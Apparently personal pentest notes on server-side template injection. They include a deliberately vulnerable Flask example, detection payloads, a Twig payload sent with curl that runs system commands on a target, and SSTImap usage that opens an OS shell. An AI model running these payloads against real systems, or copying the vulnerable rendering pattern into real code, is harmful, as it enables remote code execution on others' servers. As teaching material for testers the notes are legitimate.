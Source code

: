 # Description
Template engines read tokenized strings from template documents and produce rendered strings with actual values in the output document. Templates are commonly used as an intermediary format by web developers to create dynamic website content. Server-Side Template Injection (`SSTI`) is essentially injecting malicious template directives inside a template, leveraging Template Engines that insecurely mix user input with a given template.
## Example
```python
#/usr/bin/python3
from flask import *

app = Flask(__name__, template_folder="./")

@app.route("/")
def index():
	title = "Index Page"
	content = "Some content"
	return render_template("index.html", title=title, content=content)

@app.route("/hello", methods=['GET'])
def hello():
	name = request.args.get("name")
	if name == None:
		return redirect(f'{url_for("hello")}?name=guest')
	htmldoc = f"""
	<html>
	<body>
	<h1>Hello</h1>
	<a>Nice to see you {name}</a>
	</body>
	</html>
	"""
	return render_template_string(htmldoc)

if __name__ == "__main__":
	app.run(host="127.0.0.1", port=5000)
```

```shell-session
curl -gis 'http://127.0.0.1:5000/hello?name={{7*7}}'

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 79
Server: Werkzeug/2.0.2 Python/3.9.7
Date: Mon, 25 Oct 2021 00:12:40 GMT


	<html>
	<body>
	<h1>Hello</h1>
	<a>Nice to see you 49</a> # <-- Expresion evaluated
	</body>
	</html>
```

## Identification

We can detect SSTI vulnerabilities by injecting different tags in the inputs we control to see if they are evaluated in the response. We don't necessarily need to see the injected data reflected in the response we receive. Sometimes it is just evaluated on different pages (blind).

```html
{7*7}
${7*7}
#{7*7}
%{7*7}
{{7*7}}
```

The most difficult way to identify SSTI is to fuzz the template by injecting combinations of special characters used in template expressions. These characters include `${{<%[%'"}}%\`. If an exception is caused, this means that we have some control over what the server interprets in terms of template expressions.

We can use tools such as [Tplmap](https://github.com/epinna/tplmap) or J2EE Scan (Burp Pro) to automatically test for SSTI vulnerabilities or create a payload list to use with Burp Intruder or ZAP.

![[Pasted image 20240705134337.png]]

- Check verbose errors for technology names. Sometimes just copying the error in Google search can provide us with a straight answer regarding the underlying technology used
- Check for extensions. For example, .jsp extensions are associated with Java. When dealing with Java, we may be facing an expression language/OGNL injection vulnerability instead of traditional SSTI
- Send expressions with unclosed curly brackets to see if verbose errors are generated. Do not try this approach on production systems, as you may crash the webserver.
# Test Payloads

```bash
${7*7}
```

```bash
{{7*7}}
```

```bash
{{7*'7'}}
```

```php
{{_self.env.display("TEST")}}
```

```bash
 curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>
```
## sstimap.py

### Setup
```bash
git clone https://github.com/vladko312/SSTImap.git
cd SSTImap
pip install virtualenv
virtualenv -p python2 venv
source venv/bin/activate
pip install -r requirements.txt
./sstimap.py -u 'http://<TARGET IP>:<PORT>' -d name=john
```
### Usage

#### POST
```bash
./sstimap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell
```
#### GET
```bash
./sstimap.py -u 'http://<TARGET IP>:<PORT>/execute?cmd=ls' --os-shell
```
